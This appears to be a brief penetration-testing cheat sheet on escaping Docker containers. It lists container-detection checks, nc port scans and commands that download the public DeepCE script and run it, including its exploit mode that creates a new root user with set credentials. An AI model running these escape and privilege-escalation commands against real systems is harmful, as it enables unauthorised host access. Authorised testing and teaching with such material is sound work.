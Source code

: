 # Docker Escape

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html" %}

## Know you're in a docker

```bash
ps aux
cd / && ls -lah
# if .dockerenv then ...

cat /proc/1/cgroup
```

## Escape

```bash
arp -a
# other hosts ???
# scan open ports
nc -zv 127.0.0.1 1-65535
nc -zv $host 1-65535

# check for db and other stuff....
```

### Resources

{% embed url="https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/" %}

#### DeepCE

{% embed url="https://github.com/stealthcopter/deepce" %}

```bash
wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content.decode("utf-8"))' > deepce.sh

# start
chmod +x ./deepce.sh
./deepce.sh

# create new root user on system
./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce
```
